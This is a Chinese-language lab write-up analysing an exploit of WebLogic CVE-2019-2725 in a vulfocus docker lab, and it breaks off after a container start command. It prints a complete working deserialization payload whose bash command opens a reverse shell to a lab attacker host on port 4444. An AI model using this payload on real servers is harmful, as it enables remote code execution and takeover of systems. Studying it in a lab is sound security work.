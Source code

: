 通过分析，可以发现这是一个是对 WebLogic `CVE-2019-2725` 漏洞的 **远程命令执行（RCE）利用尝试**，核心内容是一个 **反弹 Shell 的 Payload**：

 **1. 请求方式**

```
POST /_async/AsyncResponseService HTTP/1.1
```

这是漏洞利用的目标接口，WebLogic 在这个接口中会反序列化请求头中的 `WorkContext`，可触发 Java 对象的执行。

**2. 请求头部**

```http
Content-Type: text/xml
SOAPAction: 
```

标准的 SOAP 协议请求头，伪装成一个合法 SOAP 请求（其实是恶意载荷）。

 **3. 请求主体（Payload）**

这是核心：

```xml
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
  <void class="java.lang.ProcessBuilder">
    <array class="java.lang.String" length="3">
      <void index="0"><string>/bin/bash</string></void>
      <void index="1"><string>-c</string></void>
      <void index="2">
        <string>
          bash -c '0<&36-;exec 36<>/dev/tcp/192.168.56.102/4444;sh <&36 >&36 2>&36'
        </string>
      </void>
    </array>
    <void method="start"/>
  </void>
</work:WorkContext>
```
具体解释如下：

* `192.168.56.102` 是你的攻击机（监听端）。
* `4444` 是你在攻击机上监听的端口。
* 这条命令会尝试让目标 WebLogic 服务器反连回你的机器并开启一个 Shell。

---

**4. 响应内容**

```http
HTTP/1.1 202 Accepted
```

这表示服务器成功**接收并处理了请求**，说明 SOAP 报文被成功解析，没有抛出异常。




### 方法二：执行脚本检测漏洞
在探究方法二时，我的kali虚拟机已经无法正常在场景中启动此容器，因此使用下述指令强制启动：
```bash
docker run -d --name weblogic-cve-2019-2725 \
  --ulimit nofile=65535:65535 \
  --memory=2g \
  --memory-swap=3g \
  -p 7001:7001 \
  vulfocus/weblogic-cve_2019_2725:latest \
  /bin/bash -c "cd /root/Oracle/Middleware/user_projects/domains/base_domain && ./startWebLogic.sh && tail -f /dev/null"
```
启动后docker ps查看启动结果：
